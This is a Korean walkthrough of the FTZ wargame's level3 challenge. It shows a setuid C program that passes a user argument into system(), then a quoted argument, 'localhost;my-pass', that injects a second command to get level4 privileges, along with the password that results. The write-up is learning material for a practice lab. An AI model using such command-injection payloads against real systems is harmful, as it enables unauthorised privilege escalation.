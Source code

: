 PW : `can you fly?`

```bash
[level3@ftz level3]$ cat hint


다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }

    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");

    system( cmd );

}

이를 이용하여 level4의 권한을 얻어라.

more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?
```
이번엔 힌트가 조금 길지만 천천히 읽어 보면  
`autodig` 프로그램을 실행 했을때 인자의 수가 2개가 아니면 사용 방법을 알려주고  
맞는 경우 cmd라는 문자열 공간에 `dig @`를 복사 하고
두번째 인자를 붙이고 뒤에 ` version.bind chaos txt`라는 문자도 붙여서 실행하는 프로그램이다.

우선 아래와 같이 명령어를 입력하면
```bash
[level3@ftz level3]$ autodig localhost

; <<>> DiG 9.2.1 <<>> @localhost version.bind chaos txt
;; global options:  printcmd
;; connection timed out; no servers could be reached
```
위와 같이 실행된다.

힌트에 `동시에 여러 명령어를 사용하려면?` 이라는 것이 있는데 두가지 명령어를 동시에 사용하려면 `;` 등의 접속사를 사용하면 된다.

여기서 my-pass를 사용하면 되지 않을까란 생각이 든다.  
그래서 당당하게 아래와 같이 입력했다.
```bash
[level3@ftz level3]$ autodig localhost;my-pass

; <<>> DiG 9.2.1 <<>> @localhost version.bind chaos txt
;; global options:  printcmd
;; connection timed out; no servers could be reached

Level3 Password is "can you fly?".

```
아니 이건 나도 아는 패스워드이다.
도대체 어디가 잘못된 것 일까?

위와 같이 명령어를 입력하면 리눅스는 명령어를 아래 두가지로 인식한다
```bash
level3$ autodig localhost
level3$ my-pass
```
전부 level3의 권한으로 실행하는 것이다.

그럼 autodig 프로그램의 system 함수에 my-pass가 들어가도록 해야하기 때문에 명령어를 문자열로 바꾸어 따옴표를 붙여 준다.

```bash
[level3@ftz level3]$ autodig "localhost;my-pass"

; <<>> DiG 9.2.1 <<>> @localhost
;; global options:  printcmd
;; connection timed out; no servers could be reached

Level4 Password is "suck my brain".

```
또는 `/bin/bash`를 실행하여도 된다.

level4의 패스워드는 `suck my brain`이다.